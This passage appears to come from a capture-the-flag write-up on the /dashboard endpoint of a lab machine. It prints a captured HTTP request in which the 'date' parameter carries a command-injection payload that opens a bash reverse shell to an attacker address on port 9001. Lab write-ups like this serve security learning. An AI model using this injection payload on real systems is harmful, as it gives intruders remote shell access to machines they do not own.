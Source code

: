 #### /dashboard endpoint

We discover this functionality.
![](./Assets/Pasted%20image%2020240605194633.png)

After capturing the request with BURP suite and tweaking with it, we find out the date parameter is vulnerable to command injection.
We proceed to run a revshell and gain control of the machine.

```
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/dashboard
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2+$(bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.80/9001+0>%261")
```

---